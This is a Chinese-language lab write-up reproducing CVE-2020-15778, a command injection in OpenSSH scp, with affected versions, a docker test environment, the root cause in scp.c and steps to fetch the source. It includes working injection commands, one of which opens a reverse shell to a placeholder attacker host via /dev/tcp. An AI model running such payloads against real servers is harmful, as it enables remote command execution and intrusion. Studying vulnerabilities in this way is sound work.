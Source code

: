 # OpenSSH 命令注入漏洞（CVE-2020-15778）
## 简介
OpenSSH（OpenBSD Secure Shell）是OpenBSD计划组的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听、连接劫持以及其他网络级的攻击。

OpenSSH 8.3p1及之前版本中的scp的scp.c文件存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。

## 影响范围
```
产品：Openssh
影响的组件：SCP
漏洞版本：openssh<= openssh-8.3p1
```

## 漏洞环境
https://github.com/V0WKeep3r/vulhub/tree/master/openssh/CVE-2020-15778


## 漏洞复现
docker作为漏洞环境，本机作为攻击机。
从攻击机使用scp拷贝文件到docker，正常是只拷贝文件
```
#使用scp命令将test传送至受害机的tmp文件夹下
scp test root@10.10.xx.xx:/tmp/test.txt
#之后需要输入受害机的密码，输入完成后，文件即传送过去了
```
漏洞点是可以在拷贝文件的同时，进行命令注入：
```
#在攻击机上通过特殊符号 ` 进行远程命令注入攻击
scp -P 20022 test root@127.0.0.1:'`touch /tmp/flag.sh`/tmp/test'
```
![](media/16328846646584/16328862895841.jpg)
受害机docker中，发现**命令执行**，且文件传输过来。
![](media/16328846646584/16328960055170.jpg)

使用该方式反弹shell：
```
scp -P 20022 test root@127.0.0.1:'`bash -i &>/dev/tcp/xx.vps.ip.xx/8899 <&1`/tmp/test'
```
![](media/16328846646584/16328963953426.jpg)

![](media/16328846646584/16328963738921.jpg)
复现完成。该漏洞稍微**有点鸡肋**，需要知道ssh的账户密码，因此只能在在特定环境下使用，如**虽然知道ssh账户密码，但是通常的ssh连接被阻止了。** 这个时候我们就可以利用这个漏洞进行连接。

## 漏洞原理
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp Filename user@host:directory/Filename
```
在上述过程中，scp会使用”-t“参数来获取存储传入文件的路径，如下：
```
scp -t directory/Filename
```
![](media/16328846646584/16329071439864.jpg)
问题就出在这个地方，也就是"scp.c"文件的991行，如图。这个地方未对传入的文件路径进行检测防护。攻击者可以使用反引号包裹payload然后加上文件名执行scp命令，这时，payload将会发送到远程服务器并执行。

**简单提一下，如何还原一个命令的源代码：**(我这办法可能有点复杂，也是看别人文章学的)
```bash
以centOS scp命令为例：

1. 使用which命令查看scp命令的位置：
    which scp
    /usr/bin/scp
    
2. 使用rpm命令查询scp命令所属的包:
    rpm -qf /usr/bin/scp
    openssh-clients-7.4p1-21.el7.x86_64
    
3. yumdownloader是一个从RPM源下载RPM的程序，可以使用 yumdownloader命令安装源代码(yum install yum-utils 安装yumdownloader)，如下：
    yumdownloader --source openssh-clients-7.4p1-21.el7.x86_64
    或者直接搜索openssh-clients-7.4p1-21.el7.x86_64 下载rpm包
    
4. 可以使用如下的命令查询rpm中的tar文件：
    rpm -qpl openssh-7.4p1-21.el7.src.rpm | grep tar
    openssh-7.4p1.tar.gz
    pam_ssh_agent_auth-0.10.3.tar.bz2
    
5. 使用rpm2cpio命令将rpm包文件转换成cpio归档文件，再使用cpio命令，从cpio归档文件复制提取出一个归档文件
    rpm2cpio openssh-7.4p1-21.el7.src.rpm | cpio -idv openssh-7.4p1.tar.gz
    openssh-7.4p1.tar.gz
    6537 块
```
![](media/16328846646584/16329851847393.jpg)




## 参考链接
* [CVE-2020-15778漏洞复现](https://www.jianshu.com/p/2a0ea4fec92a)
* [Linux系统的命令源代码的获取方法](https://blog.csdn.net/ljianhui/article/details/46449417)
* https://github.com/cpandya2909/CVE-2020-15778
